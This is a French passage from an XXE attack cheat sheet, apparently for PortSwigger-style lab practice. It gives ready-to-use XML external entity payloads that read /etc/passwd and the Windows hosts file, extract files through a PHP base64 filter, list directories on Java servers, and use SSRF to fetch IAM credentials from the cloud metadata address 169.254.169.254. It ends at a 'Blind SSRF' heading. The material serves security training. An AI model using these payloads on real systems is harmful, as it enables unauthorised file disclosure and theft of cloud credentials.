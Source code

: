 ### Lire le fichier

Essayons de lire `/etc/passwd` de différentes manières. Pour Windows, vous pourriez essayer de lire : `C:\windows\system32\drivers\etc\hosts`

Dans ce premier cas, notez que SYSTEM "_\*\*file:///\*\*etc/passwd_" fonctionnera également.
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>
```
![](<../images/image (86).png>)

Ce deuxième cas devrait être utile pour extraire un fichier si le serveur web utilise PHP (Ce n'est pas le cas des laboratoires Portswigger)
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<data>&example;</data>
```
Dans ce troisième cas, remarquez que nous déclarons l'`Element stockCheck` comme ANY.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ELEMENT stockCheck ANY>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<stockCheck>
<productId>&file;</productId>
<storeId>1</storeId>
</stockCheck3>
```
![](<../images/image (753).png>)

### Liste des répertoires

Dans les applications basées sur **Java**, il peut être possible de **lister le contenu d'un répertoire** via XXE avec un payload comme (demander simplement le répertoire au lieu du fichier) :
```xml
<!-- Root / -->
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE aa[<!ELEMENT bb ANY><!ENTITY xxe SYSTEM "file:///">]><root><foo>&xxe;</foo></root>

<!-- /etc/ -->
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root[<!ENTITY xxe SYSTEM "file:///etc/" >]><root><foo>&xxe;</foo></root>
```
### SSRF

Une XXE pourrait être utilisée pour abuser d'un SSRF à l'intérieur d'un cloud.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
### Blind SSRF
